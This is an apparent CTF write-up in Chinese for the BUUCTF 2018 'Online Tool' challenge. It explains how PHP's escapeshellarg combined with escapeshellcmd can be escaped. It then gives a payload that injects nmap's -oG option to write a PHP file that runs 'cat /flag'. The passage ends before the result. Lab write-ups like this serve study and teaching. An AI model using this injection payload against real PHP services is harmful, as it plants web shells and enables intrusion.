

# [BUUCTF 2018]Online Tool

## Tag

PHP RCE

***

## Writeup

代码简单解释：

1. `$_SERVER` 可以获取服务器和执行环境信息，``HTTP_X_FORWARDED_FOR` 为 HTTP 扩展头部，用来表示 http 请求端真实 ip，在这题不需要关心
2. `escapeshellarg` 确保用户只传递一个参数给命令，不能指定更多的参数，也不能执行不同的命令
3. `escapeshellcmd` 确保用户只执行一个命令，可以指定不限数量的参数，但不能执行不同的命令，会在字符 `&#;|*?~<>^()[]{}$` 和 `、\x0A、\xFF 之前插入反斜杠 \。 *'* 和 *"* 仅在不配对的时候被转义。

例如，对于 curl 命令，传入的参数是：`172.17.0.2' -v -d a=1`，经过 escapeshellarg 处理后变成了 `'172.17.0.2'\'' -v -d a=1'`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。经过 escapeshellcmd 处理后变成 `'172.17.0.2'\\'' -v -d a=1\'`，这是因为 escapeshellcmd 对 \ 以及最后那个不配对的引号进行了转义，最后执行的命令是 `curl '172.17.0.2'\\'' -v -d a=1\'`，由于中间的 `\\` 被解释为 `\` 而不再是转义字符，所以后面的 ' 没有被转义，与再后面的 ' 配对成了一个空白连接符。所以可以简化为  `curl 172.17.0.2\ -v -d a=1'`，即向 `172.17.0.2` 发起请求，POST 数据为 `a=1'`

因此构造 Payload：?host=' <?php echo `cat /flag`;?> -oG test.php，单引号被过滤我们可以用 ` 来代替，-oG 是 nmap 的参数，表示写入一个文件，即可得到：

